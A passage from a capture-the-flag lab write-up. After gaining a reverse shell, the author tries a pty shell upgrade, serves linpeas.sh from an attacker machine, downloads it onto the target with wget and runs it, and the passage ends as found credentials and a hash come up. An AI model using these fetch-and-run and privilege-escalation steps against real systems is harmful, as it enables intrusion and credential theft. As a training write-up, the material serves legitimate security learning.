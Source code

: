 This time it works! we have our basic reverse shell working.

![](https://i.imgur.com/AjMcgoj.png)

Let's see if we can answer the following room question now.


[TASK 2] Question #3: What is the user flag?
--------------------------------------------


Let's see if we can get us a better shell:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

That did not work. Let's create an HTTP server to serve our friend **linpeas.sh**

```sh
┌──(kali㉿kali)-[/opt/privilege-escalation-awesome-scripts-suite/linPEAS]
└─$ sudo python -m SimpleHTTPServer                                                                                                      1 ⨯
Serving HTTP on 0.0.0.0 port 8000 ...
```

In our revshell we type in the following wget command to and get our file loaded to the server:

```sh
bash-4.2$ wget http:/10.13.0.34:8000/linPeas.sh
wget http:/10.13.0.34:8000/linPeas.sh
--2020-08-28 20:30:51--  ftp://http//10.13.0.34:8000/linPeas.sh
           => 'linPeas.sh'
Resolving http (http)... failed: Name or service not known.
wget: unable to resolve host address 'http'
bash-4.2$ wget http://10.13.0.34:8000/linpeas.sh
wget http://10.13.0.34:8000/linpeas.sh
--2020-08-28 20:31:25--  http://10.13.0.34:8000/linpeas.sh
Connecting to 10.13.0.34:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 235695 (230K) [text/x-sh]
Saving to: 'linpeas.sh'

100%[======================================>] 235,695      154KB/s   in 1.5s   

2020-08-28 20:31:28 (154 KB/s) - 'linpeas.sh' saved [235695/235695]

bash-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
bash-4.2$ 
```

Now we run linpeas, assuming it let us. And yep it did. I don't think pasting the output of linpeas would help to this already **not-short-at-all** writeup.


Looking throuhg the results I see we find some users and groups and a password (also a hash):
